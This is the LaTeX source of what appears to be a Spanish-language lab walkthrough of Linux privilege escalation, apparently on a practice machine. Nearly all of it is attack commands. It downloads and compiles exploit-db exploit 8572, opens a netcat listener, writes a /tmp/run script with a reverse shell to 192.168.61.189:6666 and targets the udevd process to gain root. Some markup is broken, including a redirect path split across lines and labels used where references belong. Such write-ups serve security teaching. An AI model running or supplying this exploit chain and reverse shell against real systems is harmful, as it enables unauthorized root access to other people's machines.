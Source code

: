 \documentclass[a4,12pt,onecolum]{article}
\begin{document}
\begin{enumerate}
\begin{verbatim}
wget http://www.exploit-db.com/download/8572
mv 8572. exploit.c
gcc -o exploit exploit.c
\end{verbatim}

  

  \item Antes de ejecutar el exploit.c, debemos abrir un puerto al cual se  conectará la victima al lanzar el exploit. Para ello, utilizaremos el comando netcat.

\begin{verbatim}
$ sudo netcat -vlp 6666
\end{verbatim}

  \item Creamos un script que permite generar una conexión desde la máquina víctima al puerto que está escuchando en la maquina atacante.

\begin{verbatim}
echo "#!/bin/bash" >> /tmp/run
echo "/bin/netcat -e /bin/sh 192.168.61.189 6666" >> /tmp
/run
\end{verbatim}

  \item A continuación identificamos el proceso “udevd”, pues usaremos su id-1 para ejecutar el exploit, como muestra la figura \label{fig:metaele2}.

  \begin{figure}[htbp]
  \centering
  \includegraphics[width=0.8\textwidth]{./images/MetaEle2.png}
  \caption{Elevación de privilegios: /tmp/run.}
  \label{fig:metaele2}
  \end{figure}

  \item Finalmente se realiza la conexión de la víctima al atacante y obtenemos la sesión de root, como se observa en la figura \label{fig:metaele3}.

  \begin{figure}[htbp]
  \centering
  \includegraphics[width=0.8\textwidth]{./images/MetaEle3.png}
  \caption{Elevación de privilegios: obtención de root.}
  \label{fig:metaele3}
  \end{figure}


\end{enumerate}
\end{document}
